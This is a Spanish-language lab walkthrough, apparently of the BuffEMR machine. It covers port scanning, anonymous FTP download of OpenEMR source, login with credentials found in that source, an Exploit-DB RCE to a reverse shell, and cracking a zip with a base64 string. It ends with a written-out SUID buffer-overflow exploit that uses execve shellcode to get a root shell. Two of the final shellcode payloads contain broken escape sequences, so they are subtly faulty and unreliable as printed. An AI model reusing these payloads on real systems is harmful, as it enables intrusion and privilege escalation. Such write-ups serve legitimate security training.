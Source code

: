


# PortScan
___


```
# Nmap 7.93 scan initiated Wed Nov 15 10:31:08 2023 as: nmap -sCV -p 21,22,80 -oN targeted 192.168.204.162
Nmap scan report for 192.168.204.162
Host is up (0.00033s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 0        0            4096 Jun 21  2021 share
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.204.130
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 924cae7b01fe84f95ef7f0da91e47acf (RSA)
|   256 9597ebea5cf826943ca7b6b476c3279c (ECDSA)
|_  256 cb1cd9564f7ac00125cd98f64e232e77 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:D6:9E:7A (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 15 10:31:15 2023 -- 1 IP address (1 host up) scanned in 7.12 seconds
```


# FTP Enumeration
____


Nmap nos reporta qué es posible ingresar como el usuario **"anonymous"** al servicio **FTP** por ende significa que podemos ingresar sin proporcionar contraseña, descubriendo así unos recursos del cual uno es un directorio, así que para descargarlo nos conectamos por FTP con "**LFTP**" para poder descargar este directorio, ya que con **FTP** normal no podemos descargar directorios completos.

1. Para descargar en "**lftp**" usamos
```
mirror [nombre a descargar]
```

![[Pasted image 20231115105408.png]]


Qué al abrirlo, vemos qué aparentemente es un código fuente:
![[Pasted image 20231115105501.png]]
Viendo que es un código fuente, indagando en internet descubrimos qué "**openEMR**" es un software de medicina, por ahora intento ver algún tipo de credenciales para intentar conectarme **SSH** o si me puede servir más adelante en el servicio web.

Encontrando así estas credenciales:
![[Pasted image 20231115105918.png]]

Intenté conectarme por SSH, por no logré nada, igual guardé las credenciales, seguí investigando.. descubriendo también las credenciales del admin de la **DB**.

![[Pasted image 20231115111951.png]]

Así qué ahora me interesa ir por el servicio web del :80.


# Enumeración Web
___

![[Pasted image 20231115112048.png]]

Descubriendo así que está corriendo un **ubuntu** default, pero con la duda del código fuente que vimos del "**openEMR**"  indico esta ruta en la URL.

![[Pasted image 20231115112152.png]]

Descubriendo un sitio web, pruebo a probar aquí las credenciales qué encontré en el código fuente, logrando entrar como el usuario "admin".

Sé me ocurre buscar vulnerabilidades para este servicio, así que busco su versión, para posterior buscar posibles vulnerabilidades.

![[Pasted image 20231115112351.png]]


Encontrando este **PoC** en [Exploit-DB](https://www.exploit-db.com/exploits/45161) desde consola con "**searchsploit**", qué podemos podemos llevar a cabo un RCE, entablándonos así una Reverse Shell.

![[Pasted image 20231115115737.png]]


Y ya tan sólo quedaría darle tratamiento a la TTY, sino sabemos como [((Mira este tutorial))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegio #1
____

Indagando en la máquina, encontré el siguiente .ZIP.

![[Pasted image 20231115120916.png]]

El cual me lo llevo a local para descomprimirlo.

![[Pasted image 20231115121050.png]]
Nos pide contraseña, intenté crackearla y no logré obtener nada, así que opté por buscar en el código fuente qué obtuvimos anteriormente del FTP, obteniendo esta credencial en **base64**.

![[Pasted image 20231115121247.png]]

La desconvertí y intenté y tampoco pude, pero curiosamente al poner la misma cadena en base64 logré descomprimirlo.

![[Pasted image 20231115121335.png]]

Viendo este contenido, que son las credenciales de un usuario válido del sistema.

![[Pasted image 20231115121427.png]]

# Escalada de Privilegios #2


Sí buscamos como "**buffemr**" archivos con permisos **SUID**.
```bash
find / -perm -4000 2>/dev/null
```

![[Pasted image 20231115121714.png]]

Vemos que tenemos permisos SUID como root en el.

![[Pasted image 20231115121926.png]]

Vemos que es un binario de 32bits, y nos pide qué lo ejecutemos con un argumento.
![[Pasted image 20231115122113.png]]

así que pruebo a poner un argumento, pero no aparece nada.
![[Pasted image 20231115122147.png]]

Por lo qué se me ocurre ver sí presenta algo a la hora de tratar de probar si es vulnerable a Buffer Overflow.
![[Pasted image 20231115122302.png]]

Y vemos qué el ejecutable está programado de forma que el input es bien limitado, por ende podemos tratar de llevar a cabo un Buffer Overflow, para ello nos transferimos este binario a local.

Para en local ejecutarlo con "**gdb**" configurado previamente con "**gef**"

![[Pasted image 20231115123154.png]]

1. Sobre pasamos el ESP.
```bash
r [Y MUCHAS A's]
```

Hasta que salga esto:
![[Pasted image 20231115123418.png]]

2. Averiguamos la longitud de A's que necesitamos ante de escribir el EIP.
```bash
pattern create
```

obteniendo así el payload para identificar la cantidad, nos copiamos este payload, para ahora volver a correr el programa, pero en vez de las A's ponemos el payload.

![[Pasted image 20231115123747.png]]

Y para obtener la cantidad exacta de forma automática usamos.
```python
pattern offset $eip
```

![[Pasted image 20231115123958.png]]

Es decir, que después de 512 sobre-escribiremos el EIP.

3. Corroboramos qué son 512 para sobre escribir el EIP.
```bash
r $(python3 -c 'print("A"*512 + "B"*4)')
```

![[Pasted image 20231115124231.png]]

Como vemos el EIP vale lo qué indicamos nosotros, por ende ya tenemos el control en el EIP.

Sí ahora vemos protecciones del ejecutable.
![[Pasted image 20231115124417.png]]

Vemos qué el "**NX**" está desactivado, permitiéndonos así interpretar cualquier tipo de shellcode qué le metamos, en este caso usaremos un shellcode para que nos de una bash con privilegios


Ahora nos vamos a la máquina víctima, y ejecutamos con "gdb" el ejecutable.
```bash
gdb -q /opt/dontexecute
```

1. Ejecutamos el ejecutable con el shellcode.
```bash
r $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "B"*4')
```


Indicamos al EIP que apunte a los OP's de NullCode, para que interprete el ShellCode.
```bash
r $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\cd\x80" + "\x70\xd6\xff\xff"')
```



Vemos que nos ejecutó el ShellCode, pero esto lo haría en el mismo "gdb" y a nosotros nos interesaría afuera del gdb, por ende salimos.

y ejecutamos el binario así:
```bash
./dontexecute $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x70\xd6\xff\xff"')
```


![[Pasted image 20231115131759.png]]
Y estaríamos como Root.